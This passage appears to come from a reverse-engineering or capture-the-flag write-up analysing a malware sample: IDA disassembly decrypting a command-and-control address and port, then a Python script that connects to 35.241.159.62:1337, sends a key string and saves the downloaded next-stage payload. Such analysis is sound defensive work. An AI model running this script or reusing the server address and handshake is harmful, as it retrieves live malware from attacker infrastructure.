 Then it attempts to communicate with the CnC to download the next stage:

```
lea     ecx, [ebp-450h]
mov     dword ptr [ebp-5FCh], 930956E3h
push    ecx
push    dword_40A3F8 ; should contain the port but ¯\_(ツ)_/¯
mov     dword ptr [ebp-5F8h], 0FBACEEF3h
lea     ecx, [ebp-600h] ; IP address decryption
mov     dword ptr [ebp-5F4h], 2BBFDE68h
mov     dword ptr [ebp-420h], 8E035C15h
mov     dword ptr [ebp-41Ch], 0A22767D7h
mov     dword ptr [ebp-418h], 0CD82D7C6h
mov     dword ptr [ebp-414h], 2BBFDE5Ah
movaps  xmm1, xmmword ptr [ebp-420h]
pxor    xmm1, xmmword ptr [ebp-600h]
push    ecx  ; contains the IP address of the CnC
movaps  xmmword ptr [ebp-600h], xmm1
call    eax
```

Unfortunately, the "dword_40A3F8" which should point to the port string contains garbage... After some xrefing in IDA, we come across this function, which is called as __initterm callback (i.e. before main is called):
```
mov     dword ptr [esp+20h+var_20], 0B9306F24h
lea     eax, [esp+20h+var_20]
mov     dword ptr [esp+20h+var_20+4], 0A22767D7h
mov     dword ptr [esp+20h+var_20+8], 0CD82D7C6h
mov     dword ptr [esp+20h+var_20+0Ch], 2BBFDE5Ah
mov     dword ptr [esp+20h+var_10], 8E035C15h
mov     dword ptr [esp+20h+var_10+4], 0A22767D7h
mov     dword ptr [esp+20h+var_10+8], 0CD82D7C6h
mov     dword ptr [esp+20h+var_10+0Ch], 2BBFDE5Ah
movaps  xmm1, [esp+20h+var_10]
pxor    xmm1, [esp+20h+var_20]
movaps  [esp+20h+var_20], xmm1
mov     dword_40A3F8, eax
```
The string is decrypted as "1337", but unfortunately a pointer to a local variable in the function's stack frame is stored into dword_40A3F8, and this stack frame is overwritten by other function calls, leading to garbage.

We know we need to connect to 35.241.159.62:1337

After manually setting the correct port in x64dbg, we notice that the string `KADMKLAFD:LSM$OPM@FLK:FM!N$@N$` is sent to the server, and then another annoying anti-debug trick hits us again. So let's connect to the server, send this string and see what's happens (yes it's ugly and you have to it ctrl+C to stop the script):
```python

import socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
# 159.65.197.149
s.connect(("35.241.159.62", 1337))
zgueg = b"KADMKLAFD:LSM$OPM@FLK:FM!N$@N$"
s.send(zgueg)
buf = b""
f = open("shlag.bin", "wb")
while True:
    tmp = s.recv(0x200)
    f.write(tmp)
f.close()

```
